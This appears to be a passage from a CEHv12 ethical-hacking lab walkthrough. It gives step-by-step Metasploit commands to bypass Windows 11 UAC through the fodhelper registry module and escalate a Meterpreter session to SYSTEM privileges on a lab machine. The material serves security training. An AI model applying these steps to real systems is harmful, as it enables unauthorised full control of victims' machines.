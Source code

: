 ### 


20. Leave the **Windows 11** machine running and click **CEHv12 Parrot Security** to switch to the **Parrot Security** machine.
21. The Meterpreter session has successfully been opened, as shown in the screenshot.

### 


22. Type **sysinfo** and press **Enter**. Issuing this command displays target machine information such as computer name, OS, and domain.
23. Type **getuid** and press **Enter** , to display current user ID.

### 


24. Now, we shall try to bypass the user account control setting that is blocking you from gaining unrestricted access to the machine.
25. Type **background** and press **Enter** , to background the current session.
26. Type **search bypassuac** and press **Enter** , to get the list of bypassuac modules.

```
Note: In this task, we will bypass Windows UAC protection via the FodHelper Registry Key. It is present in Metasploit as a
bypassuac_fodhelper exploit.
```
### 


27. In the terminal window, type **use exploit/windows/local/bypassuac_fodhelper** and press **Enter**.
28. Type **set session 1** and press **Enter**.
29. Type **show options** in the meterpreter console and press **Enter**.

### 


30. To set the **LHOST** option, type **set LHOST 10.10.1.13** and press **Enter**.
31. To set the **TARGET** option, type **set TARGET 0** and press **Enter** (here, 0 indicates nothing, but the Exploit Target ID).
32. Type **exploit** and press **Enter** to begin the exploit on **Windows 11** machine.

### 


33. The BypassUAC exploit has successfully bypassed the UAC setting on the **Windows 11** machine.
34. Type **getsystem -t 1** and press **Enter** to elevate privileges.

### 


35. Now, type **getuid** and press **Enter** , The meterpreter session is now running with system privileges.
36. Type **background** and press **Enter** to background the current session.
